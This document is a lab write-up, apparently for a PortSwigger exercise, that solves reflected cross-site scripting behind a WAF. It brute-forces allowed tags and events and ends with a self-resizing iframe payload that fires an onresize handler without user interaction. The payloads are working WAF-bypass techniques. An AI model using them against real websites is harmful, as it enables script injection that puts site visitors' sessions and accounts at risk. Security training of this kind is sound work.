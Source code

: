 # Reflected XSS into HTML context with most tags and attributes blocked
# Objective
This lab contains a reflected XSS vulnerability in the search functionality but uses a web application firewall (`WAF`) to protect against common XSS vectors.\
\
To solve the lab, perform a cross-site scripting attack that bypasses the `WAF` and calls the `print()` function.

# Solution
## Analysis
Payload: `TestPayload` doesn’t show anything interesting.
|![](Images/image-46.png)|
|:--:| 
| *Test payload* |

Payload: `<img src=0 onerror='alert()'>` returns error `"Tag is not allowed"`.
|![](Images/image-47.png)|
|:--:| 
| *Test payload* |

## XSS Exploit
[Tags and Events used for brute forcing (Copy tags to clipboard)](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

### Brute forcing tag
|![](Images/image-48.png)|
|:--:| 
| *Payload position* |
|![](Images/image-49.png)|
| Working tag: `<body>` |

### Brute forcing event
`%20` - is just space URL encoded
|![](Images/image-50.png)|
|:--:| 
| *Payload position* |
|![](Images/image-51.png)|
| Working events - for example `onresize` |

### Brute forcing event
Payload below is triggered when user changes the size of the browser window:
```
<body onresize='print()'>
```
|![](Images/image-52.png)|
|:--:| 
| *Testing payload* |
|![](Images/image-53.png)|
| *Result* |

Presented above payload require user interaction. In order to perform this attack without any user interaction above payload (`<body onresize='print()'>`) must be rendered inside of iframe because it can be resized. Final Payload:
```
<iframe src="$ip/?search="><body onresize=print()>" onload=this.style.width='100px'>
```
After the iframe is loaded, it is resized and payload is triggered. 

